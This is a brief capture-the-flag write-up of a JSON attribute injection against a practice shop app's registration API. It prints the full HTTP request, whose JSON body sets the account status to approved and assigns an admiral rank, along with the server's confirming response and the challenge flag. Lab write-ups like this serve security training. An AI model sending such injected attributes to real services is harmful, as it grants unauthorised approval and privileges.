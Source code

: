 # CTF Writeup: JSON Attribute Injection

## Challenge: JSON Attribute Injection

### Exploit:
The registration API allowed injecting attributes to set user status to approved.

### Request:
```
POST /api/register HTTP/2
Host: juice-shop-vopb.onrender.com
Content-Length: 152
Sec-Ch-Ua-Platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Origin: https://juice-shop-vopb.onrender.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://juice-shop-vopb.onrender.com/register
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Dnt: 1
Sec-Gpc: 1
Priority: u=1, i

{"attributes":{"email":"s@m.com","missionReason":"hack",
"status":"approved"},"relationships":{"ranks":{"data":[{"type":"rank","id":"fleetAdmiral"}]}}}
```

### Response:
```
HTTP/2 201 Created
Date: Wed, 26 Mar 2025 03:41:44 GMT
Content-Type: application/json
Content-Length: 104
Rndr-Id: 0476543c-bbe5-407b
Vary: Accept-Encoding
X-Render-Origin-Server: gunicorn
Cf-Cache-Status: DYNAMIC
Server: cloudflare
Cf-Ray: 9263a24edc238b0f-BOM
Alt-Svc: h3=":443"; ma=86400

{"message":"Registration created","status":"approved","user_id":"dd9f55e9-70cb-42e2-b30d-05a99f6876ba"}
```

### Flag:
```
CTF{straw_hat_admin_bypass}
```

